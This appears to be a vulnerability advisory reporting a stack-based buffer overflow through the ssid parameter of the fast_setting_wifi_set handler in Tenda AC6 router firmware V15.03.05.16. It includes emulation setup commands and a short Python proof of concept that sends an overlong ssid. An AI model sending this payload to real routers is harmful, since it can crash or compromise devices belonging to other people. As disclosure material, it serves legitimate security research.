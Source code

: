 form\_fast\_setting\_wifi\_ set ssid
------------------------------------

### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站： [AC6V1.0升级软件](https://www.tenda.com.cn/material/show/102661)

![image](https://github.com/user-attachments/assets/01ecd393-3478-4915-bd70-4cea66aa9aef)


### Affected version

**V15.03.05.16**

### Environmental simulation

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

### Vulnerability details

The acting parameter ssid of the function form\_fast\_setting\_wifi\_set in the affected file /goform/fast\_setting\_wifi\_set causes a stack-based buffer overflow. The attack can be launched remotely

In the function form\_fast\_setting\_wifi\_set, it reads the user-supplied arguments into src and `strcpys`

![image](https://github.com/user-attachments/assets/fdb34995-3742-4c88-a894-36029c9bb87b)


### poc

```text-plain
import requests

IP = "192.168.142.100"
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```
![image](https://github.com/user-attachments/assets/727548ad-007b-4ec2-bac5-b409d1159c9f)


